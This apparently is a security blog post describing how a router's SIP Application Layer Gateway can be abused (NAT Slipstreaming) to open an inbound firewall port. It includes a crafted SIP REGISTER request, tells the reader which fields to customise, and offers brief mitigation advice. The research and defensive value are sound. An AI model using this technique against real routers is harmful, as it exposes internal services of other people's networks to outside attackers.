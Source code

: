```yaml
---
title: "Abusing Application Layer Gateways (NAT Slipstreaming)"
date: 2020-11-23T23:00:57-08:00
draft: true
tags: [
        "red",
        "ttp",
        "research"
    ]
---
```


You might have heard about ["NAT Slipstreaming"](https://samy.pl/slipstream/) by Samy Kamkar. It's an amazing technique that allows punching a hole in your routers firewall by just visiting a website.

The attack depends on the router having the `Application Layer Gateway` enabled. This gateway can be used by anyone inside your network to open a firewall port (totally by design). Protocols such as `SIP` (`Session Initiation Protocol`) use it.

What I will focus on in this post is the `Application Layer Gateway` (`ALG`) and `SIP`. In particular to understand how these can be abused by an adversary. 

I won't be discussing the browser-based attack angle in this post.

Let's get started.

## Application Layer Gateway and SIP

The `ALG` monitors traffic passing through your router. It will act on and modify requests for some protocols if enabled. One of the protocols that can be enabled is `SIP`. 

`SIP` is a text-based protocol, just like HTTP. It is used in Voice over IP (VoIP) applications. VoIP works better peer-to-peer, so there is a `REGISTER` verb that allows punching a hole into your firewall. 

![ALG Image](/blog/images/2020/alg.png)

More details of the `SIP` protocol are described in [RFC 3327](https://tools.ietf.org/html/rfc3327). 

To learn more about this I implemented a simple fake SIP server and a client for Linux/macOS and also a client for PowerShell for Windows.

### Implementing a fake SIP Server 

The fake SIP server is just a basic TCP server written in Python. I took the core messages that are sent back and forth from Samy's implementation.

The code for the server, called it natty-slipstream, is [here](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/sip-server.py).

### SIP REGISTER Request

After the fake `SIP` server is up and running outside your network, you can try to punch a hole in your firewall. This is done by sending the `REGISTER` request to the server.

I created two implementations for this:

1. [Windows PowerShell](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/Invoke-NATOpenPort.ps1)
2. [Linux/macOS - Bash/curl](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/natty.sh.txt)

For the `Bash` based Linux/macOS version `curl` is used. Interestingly my router did not mind some incorrect headers and strings in the `SIP` requests.

*If you are on macOS you might have to modify the way to get local IP, if you don't have `ip` available. Or just manually update the script and insert the IP on your local network*

This is how the request looks like:

```
REGISTER sip:example.org;transport=TCP SIP/2.0
Via: SIP/2.0/TCP 192.168.0.141:5060;branch=I9hG4bK-d8754z-c2ac7de1b3ce90f7-1---d8754z-;rport;transport=TCP
Max-Forwards: 70
Contact: <sip:wuzzi@192.168.0.141:1433;rinstance=v40f3f83b335139c;transport=TCP>
To: <sip:wuzzi@example.org;transport=TCP>
From: <sip:wuzzi@example.org;transport=TCP>;tag=U7c3d519
Call-ID: aaaaaaaaaaaaaaaaa0404aaaaaaaaaaaabbbbbbZjQ4M2M.
CSeq: 1 REGISTER
Expires: 70
Allow: REGISTER, INVITE, ACK, CANCEL, BYE, NOTIFY, REFER, MESSAGE, OPTIONS, INFO, SUBSCRIBE
Supported: replaces, norefersub, extended-refer, timer, X-cisco-serviceuri
Allow-Events: presence, kpml
Content-Length: 0

```

The parts of the request that require customization are:

* `192.168.0.141` The IP address of the internal target machine 
* `Port 5060` The remote port of the fake SIP Server 
* `Port 1433` The port that we want to expose externally to the fake SIP server

### Address Translation

If your router has `ALG` for `SIP` enabled, it will replace the internal IP address in the packet (in this case `192.168.0.141`) with the routers public IP address. 

### SIP Response

After receiving the client's request, the server responds with the following message:

```
SIP/2.0 200 OK
Via: SIP/2.0/TCP 174.nn.nn.nnn:59973;branch=I9hG4bK-d8754z-c2ac7de1b3ce90f7-1---d8754z-;rport;transport=TCP;received=10.10.10.10
From: <sip:wuzzi@example.org;transport=TCP>;tag=U7c3d519
To: <sip:wuzzi@example.org;transport=TCP>;tag=37GkEhwl6
Call-ID: aaaaaaaaaaaaaaaaa0404aaaaaaaaaaaabbbbbbZjQ4M2M.
CSeq: 1 REGISTER
Contact: <sip:wunder@174.nnn.nnn.nnn:44444;rinstance=v40f3f83b335139c;transport=TCP>;expires=3600
Content-Length: 0

```

Notice the IP address (`174.nn.nn.nnn`) which is the public IP of the router.

When the response is processed by the router, it will replace the public IP with the internal IP again. 

And it will open up the requested port `1433` for the server to connect. Nice.

### The hole is punched

That is it, now I was able to connect to the port from the outside!

The port stayed open for about 2 minutes. I tried changing the expiration header, but it did not change the duration of the exposure for my router model. But two minutes is plenty of time to connect.

## Mitigation

Check your router configuration to ensure attack surface is limited. Disabling `SIP` and `ALG` on the router will mitigate this. In my case there was no need for `ALG`, so this was a simple fix. 

This is a design flaw of the protocol, and it is not unlikely that more attacks in this realm will show up as more people start looking at this.


## Conclusion

That's it. Hope this was interesting and useful. For red teaming this is an interesting TTP to expose internal infrastructure with a benign looking request to port `5060`.

If you haven't yet, check out [Cybersecurity Attacks - Red Team Strategies](https://www.amazon.com/gp/product/1838828869/ref=as_li_tl?ie=UTF8&tag=wunderwuzzi-20&camp=1789&creative=9325&linkCode=as2&creativeASIN=1838828869&linkId=07bfd6b729fbc2b2904160e0e16c337f) for lots of red teaming goodies.

Cheers,
Johann.

Twitter: [@wunderwuzzi23](https://twitter.com/wunderwuzzi23)


## References

* [RFC 3327](https://tools.ietf.org/html/rfc3327)
* [NAT Slipstream, Samy Kamkar](https://samy.pl/slipstream/)
